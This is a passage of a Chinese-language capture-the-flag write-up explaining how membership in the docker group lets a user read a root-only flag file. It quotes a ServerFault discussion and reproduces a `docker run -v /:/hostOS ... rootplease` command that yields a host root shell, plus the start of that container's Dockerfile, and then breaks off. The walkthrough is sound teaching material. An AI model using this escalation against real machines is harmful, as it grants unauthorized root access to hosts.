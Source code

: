 没错，`/flag` 是一个指向 `/dev/shm/flag` 的符号链接，而 `/dev/shm/flag` 只有 `root` 用户才能读取。看起来这题要做的就是利用 Docker 越权读取这个文件。

#### 搜索漏洞

看起来这是个 Docker 题，甚至是利用 Docker 的漏洞，真不熟。然而，题目分类指明了方向——这根本不是 binary 题，而是个 general 题。

X 是实验室机器的管理员，为了在保证安全的同时让同学们都用上 docker，他把同学的账号加入了 docker 用户组，这样就不需要给同学 sudo 权限了！大概率**不止 X 一人**是这么想的。但既然有这道题，**事实肯定并非如此**。如此严重的安全误区，网上一定有所警示，不妨搜搜看。

搜索“is it safe to add user to docker group”，果不其然，网上许多文章推荐使用这种做法，理由就是使用 Docker 的用户不需要访问 `sudo`，非常“安全”。然而，很快我们就找到了一个问题：[What are the advantages of putting a user into the `docker` group instead of granting her `sudo` access to the host?](https://serverfault.com/questions/929115/what-are-the-advantages-of-putting-a-user-into-the-docker-group-instead-of-gra)

为什么这个标题是很重要的线索呢？题主问的是，为什么将用户放入 `docker` 组比授予她 `sudo` 访问权更好呢？这意味着，题主很可能已经意识到，放入 `docker` 用户组实际上和授予 `sudo` 访问权没有区别！看看正文，果然，

> However, by granting an unprivileged user the power to create arbitrary containers, it seems that user gains effective root access to the host: for example, it becomes quite easy that way to modify the host fs through bind mounts. Or to interact with the kernel via `procfs`/`sysfs`. So what's the point in putting someone into the `docker` group rather than giving that user root access to the system?

后面还紧跟着一个评论，

> Or the user could just [load a nice convenient Docker container that throws them straight into a root shell](https://fosterelli.co/privilege-escalation-via-docker.html).
>
> Granting access to the docker socket does indeed virtually guarantee the ability to escalate privileges.

两人都认为授予 Docker 完全访问权相当于授予 root 权限，而且后者给了一个用来获取 root 权限的 Docker 容器示例，

```plain
johndoe@testmachine:~$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
[...]
You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
# whoami
root
# 
```

正是解决这道题所需要的。

#### 修改容器代码

然而题目环境没有网络，我们并不能直接部署 `chrisfosterelli/rootplease`。不过，我们可以去 GitHub 上找来[这个容器的源代码](https://github.com/chrisfosterelli/dockerrootplease)。出奇的简单，只有两个文本文件 `Dockerfile` 和 `exploit.sh`。`Dockerfile` 的内容如下：

```docker
FROM ubuntu:20.04
COPY exploit.sh /exploit.sh
CMD ["/bin/bash", "exploit.sh"]
```

要将这个容器在题目环境中跑起来，需要更改两处：
